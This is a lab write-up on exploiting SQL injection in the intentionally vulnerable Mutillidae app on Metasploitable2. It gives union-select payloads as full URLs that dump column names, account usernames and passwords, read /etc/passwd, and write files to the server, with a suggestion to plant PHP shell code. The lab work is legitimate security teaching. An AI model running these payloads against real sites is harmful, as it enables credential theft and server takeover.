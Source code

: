 In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/user-attachments/assets/882f154d-a231-4e78-a335-e85266f127f8)

![image](https://github.com/user-attachments/assets/143f6b94-3596-4745-9b44-bdb21834479b)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/a674c2a2-6f98-4366-816c-136f8253813e)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

## Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/07a66e96-cfe9-4f5c-af59-a7421dab323d)
Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

## Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/d2729d6f-16d5-43a9-af96-3dd70a2f29f5)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
